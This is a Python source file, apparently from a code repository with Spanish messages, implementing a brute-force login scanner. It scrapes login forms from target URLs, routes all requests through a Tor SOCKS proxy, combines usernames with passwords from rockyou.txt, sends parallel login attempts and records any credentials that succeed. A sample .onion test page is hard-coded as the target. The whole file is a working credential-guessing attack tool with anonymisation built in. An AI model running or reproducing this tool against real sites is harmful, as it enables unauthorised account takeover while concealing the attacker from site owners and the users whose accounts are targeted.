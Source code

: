 import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin
from concurrent.futures import ThreadPoolExecutor, as_completed, TimeoutError
import json
from tqdm import tqdm

usernames_file = "./dics/usernames.txt"
passwords_file = "./dics/rockyou.txt"

class AdvancedBruteForceScanner:
    
    def __init__(self, urls, proxy_address="127.0.0.1", proxy_port=9050):
        self.urls = urls
        self.session = requests.Session()
        self.proxies = {
            'http': f'socks5h://{proxy_address}:{proxy_port}',
            'https': f'socks5h://{proxy_address}:{proxy_port}'
        }
        self.input_name_users = None
        self.num_threads = 5
        self.results = {}
        self.timeout = 10

    def get_forms(self, url):
        try:
            response = self.session.get(url, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)
            response.raise_for_status()
            soup = BeautifulSoup(response.content, "html.parser")
            return soup.find_all("form")
        except requests.exceptions.RequestException as e:
            print(f"Error al acceder a {url}: {e}")
            return []

    def form_details(self, form):
        details_of_form = {}
        action = form.attrs.get("action")
        method = form.attrs.get("method", "get")
        inputs = []

        for input_tag in form.find_all("input"):
            input_type = input_tag.attrs.get("type", "text")
            input_name = input_tag.attrs.get("name")
            input_value = input_tag.attrs.get("value", "")
            inputs.append({
                "type": input_type,
                "name": input_name,
                "value": input_value,
            })

        details_of_form['action'] = action
        details_of_form['method'] = method
        details_of_form['inputs'] = inputs
        return details_of_form

    def login_successful(self, response):
        success_messages = [
            "Inicio de sesión exitoso!",
            "Login successful!",
            "Welcome",
        ]

        for message in success_messages:
            if message in response.text:
                return True
        return False

    def send_login_request(self, url, action, method, headers, credentials):
        try:
            if method.lower() == "post":
                res = self.session.post(urljoin(url, action), data=credentials,
                                        headers=headers, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)
            elif method.lower() == "get":
                res = self.session.get(urljoin(url, action), params=credentials,
                                    headers=headers, proxies=self.proxies, allow_redirects=True, timeout=self.timeout)

            res.raise_for_status()

            if self.login_successful(res):
                result = {
                    "url": url,
                    "credentials": credentials,
                    "success": True,
                    "response": res.text
                }
                self.results.setdefault(url, []).append(result)
            elif res.is_redirect:
                new_url = urljoin(url, res.headers.get('location', ''))
                new_response = self.session.get(new_url, proxies=self.proxies, allow_redirects=False, timeout=self.timeout)
                new_response_text = new_response.content.decode('utf-8')
                if self.login_successful(new_response):
                    result = {
                        "url": url,
                        "credentials": credentials,
                        "success": True,
                        "response": new_response_text
                    }
                    self.results.setdefault(url, []).append(result)
        except Exception as e:
            error_message = f"Error: {str(e)}"
            result = {
                "url": url,
                "credentials": credentials,
                "success": False,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)

    def brute_force(self, usernames_file, passwords_file):
        for url in tqdm(self.urls, desc="Scanning URLs for Brute Force"):  
            input_names = self.find_login_inputs_with_timeout(url)
            if not input_names or not self.input_name_users or len(self.input_name_users) < 2:
                error_message = f"Error: Invalid form inputs in {url}"
                print(error_message)
                result = {
                    "url": url,
                    "error": error_message
                }
                self.results.setdefault(url, []).append(result)
                continue  

            with open(usernames_file, 'r') as user_file:
                usernames = [line.strip() for line in user_file]
            with open(passwords_file, 'r') as password_file:
                passwords = [line.strip() for line in password_file]

            credentials_list = [{self.input_name_users[0]: user, self.input_name_users[1]: password} for user in usernames[:10] for password in passwords[:10]]

            with ThreadPoolExecutor(max_workers=self.num_threads) as executor:
                futures = []
                for credentials in credentials_list:
                    futures.append(executor.submit(self.send_login_request,
                                                   url, input_names['action'], input_names['method'],
                                                   {'User-Agent': 'pentest'}, credentials))
                for future in as_completed(futures):
                    try:
                        future.result(timeout=self.timeout)
                    except Exception as e:
                        print(f"Error en thread: {e}")

        if not self.results:
            return json.dumps({"No encontrado fuerza bruta"})
        return json.dumps(self.results)

    def find_login_inputs_with_timeout(self, url):
        with ThreadPoolExecutor(max_workers=1) as executor:
            future = executor.submit(self.find_login_inputs, url)
            try:
                return future.result(timeout=self.timeout)
            except TimeoutError:
                error_message = f"Error: Timeout retrieving content from {url}"
                print(error_message)
                result = {
                    "url": url,
                    "error": error_message
                }
                self.results.setdefault(url, []).append(result)
                return {}

    def find_login_inputs(self, url):
        try:
            response = self.session.get(url, proxies=self.proxies, timeout=self.timeout)
            response.raise_for_status()
            soup = BeautifulSoup(response.text, 'html.parser')
            login_inputs = soup.find_all('input', {'type': ['text', 'password']})
            form = soup.find("form")
            if form is None:
                raise KeyError("Form not found")
            input_names = {'action': form['action'], 'method': form['method']}
            self.input_name_users = [input_tag.attrs.get("name") for input_tag in login_inputs]
            return input_names
        except requests.exceptions.RequestException as e:
            error_message = f"Error: Unable to retrieve content from {url}"
            print(error_message)
            result = {
                "url": url,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)
            return {}
        except KeyError as ke:
            error_message = f"Error: Unable to find form details in {url}"
            print(error_message)
            result = {
                "url": url,
                "error": error_message
            }
            self.results.setdefault(url, []).append(result)
            return {}


if __name__ == "__main__":
    urls = [
        "http://kz62gxxle6gswe5t6iv6wjt4dxi2l57zys73igvltcenhq7k3sa2mad.onion/tests/prueba_bruteforce/prueba_bruteforce.html"
        # Add more URLs here if needed
    ]
    scanner = AdvancedBruteForceScanner(urls)
    results_json = scanner.brute_force(usernames_file, passwords_file)
    print(results_json)
